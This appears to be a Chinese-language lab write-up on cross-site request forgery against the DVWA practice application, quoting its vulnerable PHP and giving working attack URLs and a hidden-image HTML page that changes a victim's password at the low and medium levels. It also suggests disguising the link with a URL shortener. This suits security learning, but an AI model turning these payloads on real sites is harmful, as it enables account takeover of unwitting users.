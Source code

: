 ```yaml
---
title: CSRF
date: 2019-3-19
tags: CSRF

---
```


### CSRF，全称Cross-site request forgery，就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），引导诱骗用户点击存在恶意代码的页面，在受害人不知情的情况下利用受害者的身份向服务器发送请求，从而完成非法操作。

### CSRF产生的本质原因：HTTP是无状态协议。前后两个请求无法相互标识，保持状态，各个请求之间是相互独立的。

**1. low 没有任何防御措施，可以直接进行攻击**
```
 if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match? 
```
_从源代码可以看出，只检查了是否是GET请求_

**攻击方法：直接链接访问即可修改密码**

`http://127.0.0.1/DVWA-master/vulnerabilities/csrf/?password_new=admin1&password_conf=admin1&Change=Change#`

**如果觉得这样太明显可以百度`短链接生成器` ，从而将这个链接做成一个看不出意图的短链接**

**2. medium**
```
if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match? 
```
_从源代码可以看出检查了保留变量 HTTP_REFERER（http包头的Referer参数的值，表示来源地址）中是否含有SERVER-NAME（本地是127.0.0.1）
_

**攻击方法:绕过referer.通过burp测试出refere检查的是必须要来自127.0.0.1。所以构造这样一个html文件，放在和dvwa同一个服务器下，再诱使用户访问即可。**

```
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>CSRF</title>
</head>
<body>
<img src="http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=1234567&password_conf=1234567&Change=Change#" border="0" style="display:none;"/>
<h1>Hello<h1>
<h2>Your password has been changed.<h2>
</body>
</html>
```
